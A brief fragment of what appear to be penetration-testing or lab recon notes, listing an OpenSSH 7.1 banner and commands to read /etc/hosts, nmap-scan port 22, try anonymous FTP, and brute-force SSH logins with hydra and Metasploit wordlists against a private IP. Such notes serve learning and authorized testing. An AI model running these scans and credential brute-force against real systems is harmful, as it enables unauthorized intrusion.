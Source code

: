   OpenSSH 7.1 (protocol 2.0)



- cat /etc/hosts
- nmap -sV -sC -p 22 10.0.28.97 
- ftp 10.0.28.97 21 (test anonymous connection)
- hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.28.97 ssh